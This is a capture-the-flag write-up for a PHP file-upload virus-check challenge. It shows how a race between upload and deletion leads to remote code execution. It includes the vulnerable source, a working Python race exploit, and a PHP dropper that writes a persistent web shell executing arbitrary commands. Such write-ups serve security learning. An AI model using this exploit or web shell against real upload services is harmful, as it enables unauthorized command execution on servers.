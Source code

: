 # Web (200 Points) 71-solves

## Challenge Description
Have a suspicious file? Check it for viruses here.
author: rugo|RedRocket

Race condition to RCE
## Challenge Files

This challenge was similar to CSCG 2022 file upload, whereby a race condition is exploited.

```
<?php

if (isset($_FILES["file"])) {
    $size = $_FILES["file"]['size'];

    if ($size > 3000) {
        echo "For such large files, buy premium";
    } else {
        $target_dir = "uploads/";
        $target_file = $target_dir . $_FILES["file"]["name"];

        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);

        function hasVirus($file_path) {
            # Check for Virus
            $argument = escapeshellarg($file_path);
            exec("clamscan $argument", $output, $retval);

            if ($retval != 0) {
                return true;
            }
            return false;
        }

        if (hasVirus($target_file)) {
            echo "The file contains a virus!";
        } else {
            echo "The file is safe to use!";
        }

        unlink($target_file);
    }

}

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
}
?>

```

## Solution
We can upload files to the application for it to inspect the file contents and check for viruses. However, the application stores the file to the server first, then only checks the file and deletes it subsequently. Therefore, we have a race condition where we can try to request the file before it is deleted from the server.

exploit.py
```
import threading
import requests


url = "http://viruscheckor.rumble.host/index.php"
file_location = "http://viruscheckor.rumble.host/uploads/virus.php"

def access_file():
    while(True):
        r = requests.get(file_location)
        if (r.ok and "Not Found" not in r.text):
                print(f'Success: {r.text}')
                return
        
def race(ses):
    t = threading.Thread(target=access_file)
    t.start()
    while(t.is_alive()):
        with open ('./virus.php','rb') as file:
            r = ses.post(url,files={"file":file})
        t.join()
        
if (__name__ == "__main__"):
    ses = requests.Session()
    race(ses)
```
Virus.php contains code to upload a persistent webshell to the server.

virus.php
```
<?php
$data = "<?php system (\$_GET['cmd']);?>";
file_put_contents("race_exploit.php",$data);
?>
```

Here I write a file called "race_exploit.php" as a simple web shell to execute commands

Going to the uploads directory /uploads/race_exploit.php presents us with the webshell

![images](../images/id.png)

The steps are:
1. Upload php file to write persistent webshell to server
2. Race the server and include the file before it is deleted
3. Go to uploads directory and access web shell to execute commands

## Flag
Flag is located in /var/www/html/flag.php

```
CSR{MIGHTSTILLBEMALLICIOUS}
```

